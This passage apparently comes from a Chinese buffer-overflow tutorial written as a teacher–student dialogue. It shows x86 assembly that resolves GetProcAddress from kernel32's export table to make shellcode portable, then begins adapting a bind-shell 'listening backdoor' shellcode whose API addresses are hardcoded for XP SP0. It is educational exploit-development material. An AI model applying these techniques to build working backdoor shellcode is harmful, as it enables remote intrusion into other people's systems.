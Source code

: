 ```
    add ebx,ebp ;ebx = 序号数组地址,AddressOf
    mov cx,[ebx+ecx*2] ;ecx = 计算出的序号值
    mov ebx,[edx+1Ch]
    add ebx,ebp ;ebx＝函数地址的起始位置，AddressOfFunction
    mov eax,[ebx+ecx*4] 
    add eax,ebp ;利用序号值，得到出 GetProcAddress 的地址
} 
```

“我们来测试一下吧！在 VC 中嵌入汇编，并单步调试，执行到最后一句时，可以发现 EAX 是 0x77E5A5FD，即得到了我们系统 XP SP0 的 GetProcAddress 函数的地址：0x77E5A5FD，如图 6－5。”

![](img/Q 版缓冲区溢出教程 185460.jpg)　　

“我们直接获得地址看看！如图 6－6，EAX 果然也是一样，XP SP0 的 GetProcAddress 函数地址就是 0x77E5A5FD！”

![](img/Q 版缓冲区溢出教程 185534.jpg)

“哇！太妙了！”大家说道。

“嗯，我们把获得 Kernel32.dll 地址部分和获得函数地址部分合起来，就可动态得到 GetProcAddress 函数的地址，而且与系统版本是无关的！”

“在动态得到了 GetProcAddress 函数的地址后，我们再使用它来动态获得其他函数的地址，这样生成的 ShellCode 就是通用的了。我们结合实际例子来应用它吧！”

# 6.1.4 通用 ShellCode 的编写——监听后门

### 6.1.4 通用 ShellCode 的编写——监听后门

“我们把以前写的双管道后门 ShellCode 改成各系统通用的版本吧！”老师说道，“我们用刚才的思路，在获得了 GetProcAddress 函数的地址后，再调用 GetProcAddress，这样获得所有要使用的函数地址后，存起来就可以了。”

大家都点点头。

老师喝了口水，说道：“看看以前的那个 ShellCode，一开始就把各函数在 XP SP0 下的地址存放了起来，所以不通用。我们修改时，只需加上一段动态获得各函数地址的代码，然后再存放就可以了。”

“具体来说，原来的实现是这样的，直接存放地址值。”

```
//原来的实现，把要用到的函数地址存起来——以下都是 XP SP0
mov eax,0x77e5727a
mov [ebp+4], eax; CreatePipe
mov eax,0x77e41bb8
mov [ebp+8], eax; CreateProcessA
mov eax,0x77e97624
mov [ebp+12], eax; PeekNamedPipe 
mov eax,0x77e59d8c
mov [ebp+16], eax; WriteFile
mov eax,0x77e58b82
mov [ebp+20], eax; ReadFile
mov eax,0x77e55cb5
mov [ebp+24], eax; ExitProcess
mov eax,0x71a241da
mov [ebp+28], eax; WSAStartup
mov eax,0x71a23c22
mov [ebp+32], eax; socket
mov eax,0x71a23ece
mov [ebp+36], eax; bind
mov eax,0x71a25de2
mov [ebp+40], eax; listen
mov eax,0x71a2868d
mov [ebp+44], eax; accept
mov eax,0x71a21af4
mov [ebp+48], eax; send
mov eax,0x71a25690
mov [ebp+52], eax; recv 
```
